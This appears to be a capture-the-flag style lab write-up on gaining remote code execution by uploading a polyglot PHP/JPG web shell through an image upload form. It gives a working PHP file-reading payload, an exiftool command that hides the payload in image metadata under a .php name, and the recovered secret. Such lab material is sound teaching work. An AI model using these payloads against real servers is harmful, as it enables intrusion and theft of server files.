




# Remote code execution via polyglot web shell upload

## Description
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

## Solution
1. Create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. 
`<?php echo file_get_contents('/home/carlos/secret'); ?>`
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully **blocks you from uploading files that aren't images**, even if you try using some of the techniques you've learned in previous labs.

3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but **contains your PHP payload** in its **metadata**. A simple way of doing this is to download and run ExifTool from the command line as follows:
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hi.png -o polyglot.php`
This adds your PHP payload to the image's **Comment field**, then saves the image with a **.php extension**.

4. In the browser, upload the polyglot image as your avatar, then go back to your account page.

In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the **START string** somewhere within the binary image data in the response. Between this and the END string, you should see Carlos's secret:
`START ZD7BSar1A1rYVdim2YVJWgDvqgZowtso END`

## Question

## Conclusion